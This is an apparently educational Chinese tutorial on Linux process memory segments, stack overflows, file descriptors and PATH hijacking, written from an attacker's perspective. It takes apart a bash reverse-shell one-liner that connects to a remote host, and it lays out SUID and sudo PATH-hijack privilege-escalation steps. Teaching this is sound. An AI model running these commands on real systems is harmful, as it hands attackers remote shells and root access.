

# 程序运行本质：进程内存分段、堆栈底层与反弹Shell重定向解密

---


> [!NOTE] 📖 本篇快速导航与章节导引
> 本篇带你穿透 Linux 进程与内存分段的迷雾，搞懂一切底层二进制与反弹 Shell 的奥秘：
> - **第一部分：进程虚拟内存空间** —— 代码段、数据段、BSS、堆与栈的五大布局心智模型。
> - **第二部分：函数调用与栈帧演变** —— ESP/RSP 与 EBP/RBP 如何管理局部变量与返回地址。
> - **第三部分：文件描述符（fd 0/1/2）本质** —— 为什么在 Linux 里“一切皆文件”？
> - **第四部分：反弹 Shell 重定向逐字节解密** —— `bash -i >& /dev/tcp/... 0>&1` 的每一步硬核执行逻辑。

## 0. 拒绝教科书废话：黑客视角下的“程序与进程”

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


传统教科书讲操作系统，往往一上来就给你灌输“虚拟化、进程调度算法、时间片轮转”等枯燥概念。
但在安全与渗透测试中，你只需要搞懂一个最原始、最本质的问题：
**“当你双击一个程序，或者在终端敲下 `./app` 时，操作系统到底对这堆代码做了什么？”**

### 1. 通俗生活类比：图纸与运转中的流水线车间
- **程序文件（二进制可执行文件 / 脚本，如 `a.out`、`app.exe`）**：
  静态存放在硬盘上的**一套“工厂图纸”**。它躺在硬盘里时毫无生气，就是一堆静态的字节码。
- **进程（Process）**：
  操作系统根据这套图纸，在**物理内存（RAM）**中圈出一片专属地盘，搭建起来的一个**正在全速运转的“实体流水线车间”**！
- **虚拟内存空间（黑客眼中的“虚拟独立王国”）**：
  操作系统为了防止进程 A 偷看进程 B 的数据，使用了一套高超的欺骗术——**虚拟内存机制**。
  每个 64 位的程序在运行时，操作系统都会对它撒谎：“全天下所有的 128TB 内存全是你一个人的，从地址 `0x0000000000000000` 到 `0x7FFFFFFFFFFFFFFF` 任意你用！”
  底层则由 CPU 的 **MMU（内存管理单元）** 负责把这个虚假的地址悄悄映射到真实的物理内存条上。

```mermaid
graph TD
    subgraph VirtualMemoryLayout ["标准 64 位 Linux 进程虚拟内存布局 (高地址到低地址)"]
        direction TB
        Kernel["【内核空间 Kernel Space】(普通用户态程序绝对不可碰, 碰之即段错误)"]:::kernel
        Stack["【栈区 Stack】(向下生长: 局部变量、函数调用返回地址) ↓"]:::stack
        Unmapped["【空白未映射区 / 动态共享库加载区 (libc.so)】"]:::unmapped
        Heap["【堆区 Heap】(向上生长: malloc / new 动态分配的内存) ↑"]:::heap
        BSS["【BSS 段】(存放未初始化的全局变量与静态变量, 自动清零)"]:::data
        Data["【Data 数据段】(存放已初始化的全局变量, 如 int a = 10;)"]:::data
        Text["【Text 代码段】(只读! 存放 CPU 正在执行的机器汇编指令)"]:::text
    end

    classDef kernel fill:#f8d7da,stroke:#721c24,stroke-width:2px;
    classDef stack fill:#d1ecf1,stroke:#0c5460,stroke-width:2px;
    classDef unmapped fill:#e2e3e5,stroke:#383d41,stroke-width:1px;
    classDef heap fill:#fff3cd,stroke:#856404,stroke-width:2px;
    classDef data fill:#d4edda,stroke:#155724,stroke-width:2px;
    classDef text fill:#cce5ff,stroke:#004085,stroke-width:2px;
```



---

## 1. 核心精髓：进程五大内存分段底层拆解

黑客看内存，从来不看什么抽象概念，只认准这五个区域：

### 1. 代码段（Text / Code Segment）——“不可篡改的操作指令书”
- **存什么**：CPU 待执行的纯机器指令（如 `mov`, `push`, `jmp`）。
- **黑客关键认知**：这个区域在内存中被操作系统标记为 **只读且可执行（r-x）**！你绝对无法在运行时直接通过代码修改指令本身。如果尝试强行往代码段写数据，CPU 立即触发硬件中断，报出著名的 **“Segmentation Fault（段错误 / 崩溃）”**！

### 2. 数据段（Data）与 BSS 段——“全局货架”
- **存什么**：程序里所有跨函数使用的全局变量和静态变量（`static`）。
- **两者的极简区别**：
  - 代码里赋了初值的（如 `int is_admin = 0;`）$\to$ 放在 **Data 段**（占用程序文件磁盘体积）；
  - 代码里没赋初值的（如 `char buffer[1024];`）$\to$ 放在 **BSS 段**（文件里只占一个长度标记，程序启动时系统自动全部填 0，节省硬盘空间）。

### 3. 堆区（Heap）——“自力更生的租赁仓库”
- **存什么**：程序员通过 `malloc()` 或 `new` 手动向操作系统申请的动态内存空间。
- **生长方向**：**从低地址向高地址“向上生长”**。
- **黑客关键认知**：
  - 堆内存用完了必须程序员手动 `free()`。如果程序员忘了释放，就会造成**内存泄露（Memory Leak）**；
  - 如果释放之后还继续使用指针访问，就诞生了二进制漏洞中的核弹级漏洞——**UAF（Use-After-Free，释放后使用）堆利用漏洞**！

### 4. 栈区（Stack）——“全自动弹簧托盘”
- **存什么**：函数调用时的**局部变量**、**函数入参**，以及函数执行完毕后返回上一级的**“返回地址（Return Address / RIP）”**！
- **生长方向**：**从高地址向低地址“向下生长”**（后进先出 LIFO）。
- **黑客关键认知**：
  - 栈由 CPU 硬件指令（`push`、`pop`、`rsp/rbp` 指针）全自动极速管理，函数一结束局部变量自动烟消云散；
  - **栈溢出（Stack Overflow）的本质**：在栈上定义的局部数组只有 10 字节，你却硬塞进了 100 字节，多出来的 90 字节一路向下冲垮了栈底保存的“函数返回地址”！攻击者将这个返回地址篡改为恶意 Shellcode 的地址，函数一返回就直接接管了 CPU 的执行流！

---

## 2. 彻底拔草：反弹 Shell 中神秘的 `>& /dev/tcp/... 0>&1` 到底是什么？

初学者在学习命令执行反弹 Shell 时，几乎所有人都在死记硬背这串“神秘咒语”：
```bash
bash -i >& /dev/tcp/1.1.1.1/8888 0>&1
```
网上的教程大多只告诉你“照抄就行”，或者解释得晦涩难懂。今天用最通俗的底层视角，彻底解密每一个符号的物理含义！

### 2.1 基础真相：Linux“一切皆文件”与文件描述符（FD）
当任何一个 Linux 程序启动时，操作系统默认会给它分配 **3 个标准的通信管道**，称为 **文件描述符（File Descriptor, FD）**：

| 文件描述符 (FD) | 官方名称 | 通俗比喻 | 默认连接设备 |
| :---: | :--- | :--- | :--- |
| **`0`** | **标准输入 (stdin)** | 程序的**“嘴巴”**（从哪儿吃数据） | 键盘 |
| **`1`** | **标准输出 (stdout)** | 程序的**“眼睛/屏幕”**（正常结果吐到哪） | 显示器屏幕 |
| **`2`** | **标准错误 (stderr)** | 程序的**“哭诉通道”**（报错信息吐到哪） | 显示器屏幕 |



---

### 2.2 拆解反弹 Shell 咒语的每一个字节

现在我们把整条命令拆解成 4 个独立积木：

#### 积木 1：`bash -i`
- 启动一个**交互式（Interactive）**的 Bash 解释器。如果不加 `-i`，命令执行完后不会提供类似 `root@victim:~#` 这样的提示符和作业控制。

#### 积木 2：`/dev/tcp/1.1.1.1/8888`
- Linux 内核（Bash 专有特性）中一个极其精妙的虚拟设备。
- 只要在 Bash 中向这个路径读写，系统底层会自动**向目标 IP `1.1.1.1` 的 `8888` 端口发起一个 TCP Socket 网络连接**！

#### 积木 3：`>& /dev/tcp/1.1.1.1/8888`
- `>` 代表**重定向输出**；
- `&` 代表**将标准输出（1）和标准错误（2）捆绑在一起**；
- **整句话的人话翻译**：
  “把 Bash 执行产生的所有正常回显（1）和报错信息（2），**统统从本地显示器上拔下来，全部灌进这个 TCP 网络管道中**，发给攻击者的电脑！”

#### 积木 4：`0>&1`
- `0` 代表**标准输入（stdin）**；
- `<` 或 `>&` 代表**输入重定向覆盖**；
- **整句话的人话翻译**：
  “把 Bash 的嘴巴（标准输入 0），**强行嫁接到标准输出（1）上**！”
  而刚才标准输出已经被连接到了攻击者的 TCP 管道上。
  因此，**攻击者在远程终端上敲下的每一个字符，都直接顺着网络流喂进了受害者 Bash 的嘴里，当作本地命令执行！**

至此，受害者电脑的“嘴巴”和“眼睛”全被替换成了攻击者的网络 Socket，**反弹 Shell 建立完毕！**

---

## 3. 环境变量（Environment Variables）与 PATH 提权本质

在操作系统中，程序之所以能直接输入 `ls`、`whoami` 就执行，而不需要敲绝对路径 `/bin/ls`，依靠的就是 **`PATH` 环境变量**。

### 3.1 查找机制与劫持漏洞（PATH Hijacking）
- 当你在终端输入一个没有路径前缀的命令（如 `ping`）时；
- 操作系统会读取当前进程的 `$PATH` 变量（例如 `PATH=/usr/local/bin:/usr/bin:/bin`）；
- 系统按照**从左到右的优先级顺序**，依次在各个目录里寻找是否存在名为 `ping` 的可执行文件。

### 3.2 黑客利用实操：PATH 环境变量劫持与提权真实机制

> [!CAUTION] ⚠️ 零基础避坑关键：为什么单纯改自己的 PATH 无法直接提权？
> 很多初学者误以为：“只要在自己的终端输入 `export PATH=/tmp:$PATH`，系统里所有的 root 进程就会执行我的恶意程序”。**这是完全错误的！**
> 在 Linux 进程模型中，**子进程只能单向继承父进程的环境变量**，不同用户、不同终端会话之间的环境变量是完全隔离的。root 用户的 Cron 定时任务默认使用 root 自己的固定 PATH（如 `/usr/bin:/bin`），根本不会读普通用户的环境变量！

#### 真正能实现提权的两种核心前置场景：

##### 场景 1：具有 SUID 特权的 Root 程序内部调用相对路径命令（最经典 CTF/实战场景）
* **背景**：系统中存在一个由 root 拥有的可执行二进制文件（如 `/opt/check_status`），且被管理员设置了 **SUID 权限位（`chmod u+s`）**；
* **破绽源码**：该程序内部在执行系统命令时，偷懒写了相对路径而非绝对路径：
  ```c
  // C 源码漏洞：写了 relative command "service"，而非 "/usr/sbin/service"
  int main() {
      setuid(0);
      system("service apache2 status");
      return 0;
  }
  ```
* **攻击闭环**：
  1. 普通用户污染当前会话的 `PATH`：`export PATH=/tmp:$PATH`；
  2. 在 `/tmp` 下伪造恶意可执行程序 `/tmp/service`（写入反弹 Shell 或提权脚本）；
  3. 普通用户直接运行该 SUID 程序：由于程序在当前用户的 Shell 中派生，它**完全继承了当前用户污染过的 `$PATH`**；但由于具备 SUID 标志，其有效用户身份瞬间提升为 **root**，最终以 root 特权执行了 `/tmp/service`，提权大功告成！

##### 场景 2：`sudo` 配置保留了环境变量（`SETENV` 或未启用 `secure_path`）
* **破绽配置**：在 `/etc/sudoers` 文件中，管理员给普通用户配置了免密执行某命令，但开启了 `NOPASSWD: SETENV`，或未配置 `Defaults env_reset` / `secure_path`；
* **攻击利用**：攻击者在调用 `sudo` 时带上 `-E` 参数强制保留当前用户环境：
  ```bash
  export PATH=/tmp:$PATH
  sudo -E /usr/local/bin/backup_script.sh
  ```
  此时脚本中调用的任何未加绝对路径的子命令，均会命中 `/tmp` 中的恶意伪造程序！

---

## 4. 总结：黑客眼中的计算机底层运行法则

| 核心组件 | 教科书概念 | 黑客攻防实战真相 |
| :--- | :--- | :--- |
| **虚拟内存** | 逻辑抽象、页表映射 | 隔离但虚幻的世界；越界读写即触发段错误；栈向下长、堆向上长。 |
| **栈（Stack）** | 局部作用域、后进先出 | 保存函数返回地址（RIP/EIP）；输入超长导致栈溢出劫持控制流。 |
| **文件描述符**| 整数索引表项 | `0` 为嘴巴输入，`1` 为眼睛输出，`2` 为错误输出；通过重定向可任意插拔到网络 Socket。 |
| **环境变量** | 进程间配置传递机制 | 搜索路径从左到右；未写绝对路径的系统命令可通过 PATH 变量篡改劫持。 |
